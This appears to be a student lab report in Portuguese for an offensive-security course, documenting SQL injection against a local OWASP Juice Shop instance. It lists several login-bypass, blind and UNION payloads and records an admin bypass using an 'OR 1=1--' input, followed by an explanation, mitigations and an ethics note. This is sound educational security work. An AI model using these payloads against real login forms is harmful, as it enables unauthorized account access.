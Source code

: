 # 🔍 Exploração de Vulnerabilidade — 👨‍🔬 Testes Juice Lab

## 🔗 Matéria: Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress  
- 🔍 **Tipo de atividade:** OSINT (coleta superficial)  
- 🧾 **Ferramenta:** OWASP Juice Shop (ambiente intencionalmente vulnerável)

---

### 📥 Preparação
Após clonar e iniciar o Juice Shop, acessamos a aplicação localmente em:
```
http://127.0.0.1:3000
```
Abrimos a página inicial para coleta de informações (reconhecimento) e identificamos potenciais pontos de entrada, como avaliações de produtos que expõem e-mails.

---

### 🧭 Reconhecimento (OSINT)
Ao clicar nos produtos ("sucos") encontramos comentários/avaliações que contêm o e-mail de um avaliador. Essas informações ajudam a montar testes focados em autenticação, já que o site solicita **e-mail** no login (em vez de nome de usuário).

Exemplo de e-mail identificado:
> `admin@juice-sh.op`

---

### 🧪 Estratégia de teste — Injeção SQL (autenticação)
Como a aplicação aceita e-mail no campo de login, podemos testar payloads de **SQL Injection** na etapa de autenticação. A ideia é verificar se a entrada do usuário é concatenada em uma query SQL sem a devida sanitização/parametrização, permitindo bypass da senha.

#### Payloads comuns para testar (exemplos)
1. Comentário para truncar a query:
```
Username: admin' --
Password: qualquer_coisa
```

2. Condição sempre verdadeira (bypass):
```
Username: ' OR '1'='1
Password: ' OR '1'='1
```

3. Time-based (teste de blind SQLi):
```
Username: admin' AND SLEEP(5) --
Password: qualquer_coisa
```

4. UNION-based (extração de dados — depende da query original):
```
Username: ' UNION SELECT 1,'admin','hashed_password' --
Password: qualquer_coisa
```

---

### ✅ Teste executado (simples e efetivo)
No Juice Shop, realizamos o teste mais simples (bypass) que já é suficiente para autenticar como administrador.

**Entrada usada no campo “Username / Email”:**
```
admin@juice-sh.op' OR 1=1--
```
**Password:** qualquer valor

Imagens do fluxo (exemplos de screenshots inseridos no relatório original)

Resultado: conseguimos acesso com privilégios de administrador.

---

### 💡 Explicação técnica (por que funciona)
O payload `OR 1=1 --` transforma a condição de verificação do usuário em algo sempre verdadeiro. Se a aplicação constrói a query de autenticação sem uso de parâmetros, por exemplo:
```sql
SELECT * FROM users WHERE email = 'admin@juice-sh.op' OR 1=1 --' AND password = '...';
```
o `OR 1=1` faz com que a cláusula WHERE seja satisfeita independentemente da senha. O `--` comenta o restante da query, ignorando a verificação de senha.

---

### 🔐 Mitigações recomendadas
1. **Use consultas parametrizadas / prepared statements** — evite concatenar entradas do usuário em queries SQL.  
2. **Valide e sanitize entradas** no servidor (white-list quando possível).  
3. **Limite tentativas de login** (rate limiting / account lockout).  
4. **Autenticação multifator (MFA)** para contas sensíveis.  
5. **Logs e monitoramento** de tentativas suspeitas.  
6. **Testes de segurança contínuos** em ambientes controlados (CTFs, Juice Shop, WebGoat).

---

### ⚖️ Nota ética e legal
Este relatório descreve testes realizados em um ambiente **controlado e intencionalmente vulnerável** (OWASP Juice Shop). **Nunca execute** testes de intrusão em sistemas sem autorização explícita. Práticas de segurança ofensiva devem sempre respeitar a legalidade e a ética profissional (responsible disclosure).

---

